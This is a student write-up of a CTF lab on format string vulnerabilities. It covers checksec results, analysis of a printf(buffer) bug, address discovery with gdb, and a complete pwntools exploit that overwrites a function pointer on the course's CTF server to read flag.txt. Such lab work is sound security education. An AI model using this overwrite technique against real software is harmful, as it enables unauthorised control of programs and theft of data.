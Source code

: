 # CTF Semana #6 (Format Strings)

## Context

The goal of this week's CTF challenge is to apply techniques learned from SEED Labs about format string vulnerabilities. Specifically, the challenge involves reading from and writing to arbitrary memory addresses, not limited to the stack. A ZIP file is provided containing an executable (`program`) and its source code (`main.c`). The flag is located in a `flag.txt` file, which is read by the program. A Python script (`exploit-template.py`) is also provided to assist in crafting the exploit.

# Task 1: Checking the program protections

Using ```$ checksec program```, we can see what protections are enabled and what kinds of attacks are possible:
![checksec](/docs/images/ctf6checksec.png)

### **No RELRO (Relocation Read-Only)**
RELRO provides protection for GOT (Global Offset Table) and PLT (Procedure Linkage Table) tables to prevent overwriting of function pointers. Since RELRO is disabled, the GOT is writable. This makes it possible to overwrite function pointers, which is essential for the format string exploit.

### **No PIE (Position-Independent Executable)**
PIE loads the program at a random base address every execution, making it harder to predict addresses for exploitation. Without PIE, the binary has a fixed base address, which makes it easier to find the address of ```readtxt``` and function pointers since they will be consistent across runs. This consistency is crucial for the exploit to work as it allows predictable access to ```readtxt```.

Even with a stack canary, this setup is insufficient to prevent the exploit, as format string vulnerabilities allow arbitrary memory manipulation without directly affecting the stack return address or injecting executable code.

The exploit takes advantage of these weaknesses effectively, leveraging format strings to alter program flow and access sensitive data, in this case, the flag.

# Task 2: Analyzing the program code

Analyzing the code, we can see that the program opens the file `rules.txt` through the function `readtxt`. There is a way to control which file is opened. The program allows the function pointer `fun` to be overwritten due to a format string vulnerability, making it possible to redirect `fun` to the `readtxt` function with an argument of our choosing (in this case, `flag.txt` instead of `rules.txt`). 

There is a format string vulnerability in the `printf(buffer)` function, which is used without format string protections. This vulnerability allows us to write arbitrary data to specific memory addresses. We can exploit it to overwrite the function pointer `fun` with the address of `readtxt`, allowing us to specify "flag.txt" as the file to open and read, thus gaining access to the flag.

# Task 3: Discovering addresses

By having `readtxt_addr` and `fun_addr`, we gain control over the function pointer `fun` and direct it to call `readtxt` with our own choice of arguments. This setup is essential for making the program read "flag.txt" instead of "rules.txt", revealing the flag and achieving the challenge goal.

## Discovering the `fun` address

Every time the program is run, it provides a “hint” that includes a memory address where the `fun` function pointer is stored. We receive this hint and extract its address by parsing the received text. We convert it to an integer to make it easier to use later.

![code1](/docs/images/ctf6code1.png)

## Discovering the `readtxt` address

To find the address of the `readtxt` function, we can use gdb:
![gdb1](/docs/images/ctf6gdb1.png)

![gdb2](/docs/images/ctf6gdb2.png)

The first address that appears after we use `disassemble readtxt` is the address we will use, in this case `0x080497a5`.

# Task 4: Making the exploit

Now we need to create the payload so that we can overwrite the memory in the correct place. We will use the function `fmtstr_payload` from the pwntools library to create a format string payload to overwrite memory. Here, we use it to overwrite `fun_addr` with `readtxt_addr`: `fmtstr_payload(offset, {fun_addr: readtxt_addr})`.

We need to add the `"flag"` prefix to the payload so that it is the file that is called when using the `cat` command. However, the size of the argument that `readtxt` uses is 6 bytes, not 4 like we have in `"flag"`. So, we need to add two more bytes. In this case, we can add the same directory prefix: `"./flag"`, and the command will be the size we want.

We do have a problem now: we can't line up `"./flag"` with the command that we want to overwrite because the offset works in blocks of 4 bytes. Since 6 is not a multiple of 4, to fix this, we can add two additional characters after `"./flag"`. These characters can be anything as long as they are not spaces or special characters that might break the payload. In our case, the final prefix was `"./flagnn"`, having 8 bytes.

Then, we adjust the offset forward by 1 position to compensate for the added characters. This is basically everything we need to know. Then, we just send the payload. 

The final payload will look like this: 
`payload = prefix + fmtstr_payload(3, {fun_addr: readtxt_addr}, num)`. 

We pass the `num` variable (which is the size of the prefix) so that the function accounts for the length of the prefix when generating the format string, ensuring that the generated exploit writes to the correct memory address with the intended value.


# Final exploit code 

```bash
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 4005)

# Receive the output
res = r.recvuntil(b"flag:\n")
# Extract the hint (the address) from the output dynamically
hint_line = res.decode().split("I will give you an hint: ")[1].split()[0].strip()
# Convert the hex address to an integer
fun_addr = int(hint_line, 16)

# The address of the 'readtxt' function (in the provided code it's 0x080497a5)
readtxt_addr = 0x080497a5

# Add 'flag' as a prefix
prefix = b"./flagnn"
num = len(prefix) 

# Create the payload with the new offset and add the 'flag' prefix
payload =prefix + fmtstr_payload(3, {fun_addr: readtxt_addr},num)

# Send the crafted payload
r.sendline(payload)

# Receive the response and print the output
response = r.recvall().decode(errors="backslashreplace")
print(response)
# Close the connection
r.close()

```